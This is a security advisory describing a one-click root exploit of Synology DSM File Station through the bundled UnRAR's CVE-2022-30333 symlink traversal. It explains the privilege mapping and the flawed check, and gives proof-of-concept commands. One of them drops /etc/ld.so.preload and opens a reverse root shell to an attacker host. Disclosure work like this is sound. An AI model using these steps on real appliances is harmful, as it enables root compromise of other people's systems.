


Synology DSM 1-click RCE via UnRAR CVE-2022-30333 in File Station
AuthorAlexandro Sanchez Bach Date2026-08-17
A normal (non-administrator) DSM account can plant a crafted RAR archive that, when an administrator extracts it in File Station, writes an attacker-controlled file to any path on the appliance as root, and from there runs code as root.
DSM bundles UnRAR 5.70 (2019), which predates the CVE-2022-30333 fix. SYNO.FileStation.Extract performs the unpack with the caller's own privileges: as root when the caller is an administrator, as the caller's own uid otherwise. A RAR entry that is a Windows symlink escapes the extraction folder, and a second entry writes through it, so when an administrator does the extraction the escaping write lands anywhere on the system as root. The attacker supplies the archive; a single, routine administrator action (extracting it) is the trigger.
Impact
Two results, each requiring one administrator action (extracting the attacker's archive in File Station), i.e. 1-click, normal-user-authenticated, AC:H:
-
1-click normal-user-auth arbitrary file write as root: A normal user uploads a crafted RAR to a shared folder; when an administrator extracts it, an attacker-controlled file is written to any path on the appliance. The written file and its parent directory are then re-owned as the extracting administrator's user:group.
-
1-click normal-user-auth remote code execution as root: The same primitive plants
/etc/ld.so.preloadand a small.so; the next rootexecve(e.g. any hit on the stock root CGI/webman/login.cgi, which nginx routes to synoscgi running as root) loads the planted library into a root process, yielding a root shell with no reboot.
Both findings were reproduced on a test RS1221+ unit running DSM 7.4.1-90080.
Affected devices
Confirmed on DSM 7.4.1-90080 and DSM 7.3.2-86009, the two images examined. In both, /usr/lib/libunrar.so is byte-identical (md5 8864229c538195b7e07594dbadd591d7) and is UnRAR 5.70, read from the version immediates in /usr/bin/unrar (minor 0x46 = 70, year 0x7e3 = 2019). CVE-2022-30333 was fixed upstream in UnRAR 6.12 (open-source 6.1.7, May 2022), so this build is affected.
The vulnerable component is the DSM OS library libunrar.so, not the File Station package (FileStation-x86_64-1.4.4-2221 is only the reachable caller). Synology has published no advisory for CVE-2022-30333, and both current release lines (7.3.x and 7.4.x) ship the same unpatched 5.70, so the current DSM 7 line is affected. Earlier releases were not examined; any DSM version shipping UnRAR before 6.12 is affected on the same basis.
Preconditions
A normal DSM account (normal.local, normal.domain or normal.ldap) with the File Station privilege and write access to a folder that an administrator can browse (for example a shared or incoming folder that administrators extract archives from). The attacker uploads their archive with SYNO.FileStation.Upload (authLevel 1). The attacker needs no administrator credentials; only for the administrator to extract the file.
How it works
SYNO.FileStation.Extract is authLevel 1, allowUser [admin.*, normal.local, normal.domain, normal.ldap], so any File Station user may call it, but the extraction runs with the caller's effective uid. On every File Station request, FileStation::FileWebAPI::Run calls WfmLibUGIDSet(loginUser) before dispatching the handler. WfmLibUGIDSet branches on SLIBGroupIsAdminGroupMem(user): an administrator is mapped to root (ResetCredentialsByName("root"), effective uid 0), a normal user to their own uid (ResetCredentialsByName(user)). HandleExtractAction then forks a worker (Extract.so.c:19782) that inherits that euid and performs the unpack in-process via libunrar.so with no further privilege change. So an administrator's extraction writes entries as root, while a normal user's extraction writes as that user. The per-entry destinations are never re-checked against the chosen folder.
The bundled UnRAR carries CVE-2022-30333. In ExtractUnixLink50 (libunrar.so 0x279b0), the RAR5 symlink target is copied out and then converted from backslashes to slashes with DosSlashToUnix, but the traversal check runs on the unconverted target:
WideToChar(hd->RedirName, target, 0x800); /* target = "..\..\..\...\etc" */
if (RedirType in {2,3} && target not "\??\" or "/??/")
DosSlashToUnix(target, target, 0x800); /* '\' -> '/', in place */
...
IsRelativeSymlinkSafe(cmd, hd->FileName, LinkName, hd->RedirName); /* checks the UNCONVERTED target */
UnixSymlink(target, LinkName); /* creates the link to the converted path */
IsRelativeSymlinkSafe only counts a .. component when the next character is /, so a backslash target like ..\..\..\etc counts zero .. and passes. The symlink is then created pointing outside the destination, and a second archive entry named <link>/<file> writes through it. This is the pre-6.12 upstream code; the 6.12 fix, which validates the slash-converted target, is absent.
Proof of concept
Two scripts: Both run on the attacker's side with a normal user's credentials, they build the RAR in memory, log in, and upload it to --dest (a folder an administrator can browse). The trigger is an administrator extracting that archive in File Station. In the examples below /share is a File Station folder the normal account can write.
- 1-click normal-user-auth arbitrary file write:
poc_arb_file_write.py. Plants the archive; when an administrator extracts it,--targetis written as root. WARNING: the extraction re-owns the target's parent directory (e.g./etc) to the extracting administrator, which can break system commands; restore it withchown root:root /etc; chmod 0755 /etc. Example:
python3 poc_arb_file_write.py --url https://nas:5001 --user alice --password 'Passw0rd!' --dest /share --file ./hello.txt --target /etc/hello.txt
- 1-click normal-user-auth RCE:
poc_rce.py. Plants a RAR that drops/etc/ld.so.preloadand a tiny.so(built locally withgcc), then listens and nudges/webman/login.cgiso that once an administrator extracts the archive, the next rootexecveloads the library and connects back a root shell. On connect it removes/etc/ld.so.preloadand restores/etcownership. Example:
python3 poc_rce.py --url https://nas:5001 --user alice --password 'Passw0rd!' --dest /share --lhost 192.168.1.100 --lport 4444

